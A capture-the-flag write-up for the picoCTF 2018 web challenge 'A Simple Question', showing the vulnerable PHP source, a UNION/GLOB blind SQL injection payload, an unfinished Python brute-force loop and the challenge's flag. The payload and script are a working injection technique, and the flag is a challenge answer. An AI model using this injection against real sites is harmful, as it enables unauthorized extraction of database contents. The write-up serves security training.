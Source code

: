 # A Simple Question
Points: 650

## Category
Web Exploitation

## Question
>There is a website running at http://2018shell1.picoctf.com:2644 ([link](http://2018shell1.picoctf.com:2644/)). Try to see if you can answer its question. 

### Hint
No Hints.

## Solution
Looking at the source code, we can see that this web application is vulnerable to SQL injections.

```php
include "config.php";
ini_set('error_reporting', E_ALL);
ini_set('display_errors', 'On');

$answer = $_POST["answer"];
$debug = $_POST["debug"];
$query = "SELECT * FROM answers WHERE answer='$answer'";
echo "<pre>";
echo "SQL query: ", htmlspecialchars($query), "\n";
echo "</pre>";
```

However, it doesn't appear to print anything out, but just tells you either you're wrong, you're close, or you get the flag

```php
$con = new SQLite3($database_file);
$result = $con->query($query);

$row = $result->fetchArray();
if($answer == $CANARY)  {
	echo "<h1>Perfect!</h1>";
	echo "<p>Your flag is: $FLAG</p>";
}
elseif ($row) {
	echo "<h1>You are so close.</h1>";
} else {
	echo "<h1>Wrong.</h1>";
}
```

Alright, let's create a small injection to slowly brute-force the answer.
`' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --`

We use _GLOB_ instead of _LIKE_ because it's case-sensitive. Also we use _*_ or _%_ because _GLOB_ uses Unix wildcards.

We run the script and get the flag.

```python
final = ''
while True:
	for i in range(0x20, 0x7f):
		if i != 42 and i != 63: # Removes Unix wildcards '*' and '?'
			params = {
				'answer': "' UNION SELECT * FROM answers WHERE answer GLOB '{}{}*'; --".format(final, chr(i))
			}
			r = requests.post('http://2018shell1.picoctf.com:2644/answer2.php', data=params)
			res = r.text
			print res
```

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{qu3stions_ar3_h4rd_28fc1206}`

https://github.com/shiltemann/CTF-writeups-public/tree/master/PicoCTF_2018#web-exploitation-650-a-simple-question

https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/web-exploitation/#a-simple-question
